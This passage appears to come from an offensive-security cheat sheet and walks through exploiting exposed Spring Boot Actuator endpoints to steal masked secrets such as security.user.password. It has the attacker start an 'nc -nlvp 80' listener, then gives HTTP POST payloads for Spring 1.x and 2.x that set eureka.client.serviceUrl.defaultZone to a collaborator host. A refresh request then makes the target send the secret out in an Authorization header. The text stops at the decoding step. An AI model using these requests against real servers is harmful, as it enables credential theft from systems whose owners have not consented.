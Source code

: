 #### Steps to use:

1. Find the property name you want to get
   - GET requests the `/env` or `/actuator/env` interface of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

2. Use nc to listen for HTTP requests
   - Listen to port 80 on the external network server controlled by yourself. It can be your Burp collaborator, interact.sh, the classic `nc -nlvp 80` or `httpdump :80` ([httpdump on Github](https://github.com/luastan/httpdump))

3. Set the `eureka.client.serviceUrl.defaultZone` property
   - Replace in the following with the attribute name masked by the corresponding asterisk* you want to get:

**spring 1.x**
```http
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${{{ attribute security.user.password }}}@{{ collaborator your.burpcollaborator.net }}
```

**spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${{{ attribute security.user.password }}}@{{ collaborator your.burpcollaborator.net }}"}
```

4. Refresh the configuration:

**spring 1.x**

```http
POST /refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```http
POST /actuator/refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json
```

5. Decode the attribute value

Normally, the server monitored by nc will receive the request from the target, which contains the following Authorizationheader content:
